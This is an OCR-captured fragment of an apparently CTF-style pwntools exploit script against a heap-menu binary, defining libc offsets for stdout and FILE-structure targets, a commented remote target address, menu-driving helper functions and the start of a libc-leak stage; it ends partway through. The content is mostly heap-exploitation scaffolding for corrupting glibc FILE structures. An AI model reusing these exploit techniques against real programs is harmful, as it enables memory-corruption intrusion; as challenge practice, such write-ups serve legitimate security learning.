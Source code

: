 ```
io_stdout_off = 0x3c5620
io_stdfil_1_lock_off = 0x3c6780
io_file_jumps_off= 0x3c36e0
nl_global_locale_off = 0x3c5420
nl_clctype_class_off = 0x1775e0

sysmem = 0x21000
stdout = 0xfbad2887

p = process(elf)
#p = remote("172.16.30.131", 5678)

def insert(s):
    p.recvuntil("Your choice: ")
    p.sendline("1")
    p.recvuntil("Length of new entry: ")
    p.sendline(str(len(s)))
    p.recvuntil("Enter your data: ")
    p.send(s)

def update(idx, s):
    p.recvuntil("Your choice: ")
    p.sendline("2")
    p.recvuntil("Entry ID: ")
    p.sendline(str(idx))
    p.recvuntil("Length of entry: ")
    p.sendline(str(len(s)))
    p.recvuntil("Enter your data: ")
    p.send(s)

def merge(idx1, idx2):
    p.recvuntil("Your choice: ")
    p.sendline("3")
    p.recvuntil("Merge from Entry ID: ")
    p.sendline(str(idx1))
    p.recvuntil("Merge to Entry ID: ")
    p.sendline(str(idx2))

def delete(idx):
    p.recvuntil("Your choice: ")
    p.sendline("4")
    p.recvuntil("Entry ID: ")
    p.sendline(str(idx))

def view(idx):
    p.recvuntil("Your choice: ")
    p.sendline("5")
    p.recvuntil("Entry ID: ")
    p.sendline(str(idx))
    p.recvuntil("Entry No."+str(idx)+":\n")
'''
bb 0x10CC
bb 0x127D
bb 0x14EB
bb 0x15F6

'''

# leak libc

insert(p8(0)*0x8)#0
insert(p8(1)*0x8)#1
insert(p8(2)*0x8)#2
```